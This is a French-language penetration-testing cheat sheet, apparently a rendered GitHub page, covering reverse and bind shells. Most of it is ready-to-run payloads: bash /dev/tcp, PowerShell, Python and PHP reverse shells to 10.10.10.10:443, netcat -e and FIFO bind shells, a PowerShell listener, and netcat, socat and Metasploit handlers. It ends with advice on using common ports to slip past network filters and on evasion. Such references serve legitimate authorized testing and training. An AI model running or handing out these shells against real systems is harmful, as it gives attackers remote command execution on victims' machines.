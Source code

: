 # Types de Shells

Cette section couvre les deux principaux types de shells utilisés en test d'intrusion: reverse shells et bind shells.

## Reverse Shells

Dans un reverse shell, la cible initie la connexion vers l'attaquant. Cela permet de contourner les pare-feu qui bloquent les connexions entrantes mais autorisent les connexions sortantes.
### Mise en place d'un listener
#### Netcat
```bash
# Sur l'attaquant
sudo nc -lvnp 443
```
#### Socat (pour une connexion plus stable)
```bash
# Sur l'attaquant
socat -d -d TCP-LISTEN:443 STDOUT
```
#### Metasploit
```bash
# Sur l'attaquant
msfconsole
use exploit/multi/handler
set PAYLOAD <payload>
set LHOST <IP_local>
set LPORT 443
run
```
### Exemples de payloads de reverse shell
#### Bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'
```
#### PowerShell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
#### PHP
```php
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Bind Shells
Dans un bind shell, la cible ouvre un port et attend une connexion de l'attaquant. Cela est utile quand l'attaquant ne peut pas recevoir de connexions entrantes.
### Mise en place d'un shell sur la cible
#### Netcat
```bash
# Sur la cible
nc -lvnp 4444 -e /bin/bash
```
#### FIFO (named pipe) - pour les cas où nc sans -e est disponible
```bash
# Sur la cible
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 4444 > /tmp/f
```
#### PowerShell
```powershell
# Sur la cible
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',4444);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
### Connexion au bind shell
```bash
# Sur l'attaquant
nc -nv <IP_CIBLE> 4444
```
## Choix du Type de Shell

| Scénario | Type recommandé |
|----------|-----------------|
| La cible est derrière un NAT/pare-feu | Reverse shell |
| L'attaquant est derrière un NAT/pare-feu | Bind shell |
| Environnement restrictif sortant | Bind shell sur ports autorisés (80, 443) |
| Environnement restrictif entrant | Reverse shell sur ports autorisés |
| Besoin de stabilité | Socat ou shells interactifs |
## Astuces & Bonnes Pratiques
- Utilisez des ports communs (80, 443, 53) pour contourner les filtres réseau
- Testez plusieurs méthodes si une échoue
- Préparez plusieurs payloads à l'avance
- Préférez HTTPS/TLS pour les communications chiffrées
- Considérez l'utilisation de techniques d'évitement (sleeps, exécution indirecte)